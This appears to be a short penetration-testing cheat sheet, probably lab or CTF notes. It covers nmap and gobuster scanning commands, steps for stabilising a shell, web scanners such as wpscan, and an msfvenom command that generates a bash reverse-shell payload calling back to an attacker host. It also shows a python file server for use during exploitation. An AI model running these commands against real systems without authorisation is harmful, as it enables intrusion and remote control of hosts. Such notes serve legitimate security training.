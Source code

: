 Scanning & information gathering: 

nmap: 

general: 
sudo nmap -sC -sV -T4 -v -p- --script=banner  -oN full_scan.txt IP

for a specific service: 
sudo nmap -p PORT  -sV --script SCRIPT-NAME TARGET

gobuster: 

gobuster dir -u IP -w /usr/share/wordlists/dirb/common.txt -e  
  -x php,html,txt    \  # common file extensions to try
  -t 50              \  # number of concurrent threads
  -o gobuster.out    \  # save output to file
  -s 200,204,301,302 \  # only show these status codes
  -k                 \  # skip SSL/TLS cert verification (if HTTPS)
  -v                 \  # verbose; show more info


Stable shell: 

python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Ctrl + Z [Background Process]

stty raw -echo ; fg ; reset
stty columns 200 rows 200

Web application : 
Tools: 
wfuzz
nikto 
if wordpress : wpscan, take a look at upload and at the plugin 

bash reverse shell with metaspoloit: 
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > reverse.sh

During Exploit: 

python webserver: 
python3 -m http.server 8000

 




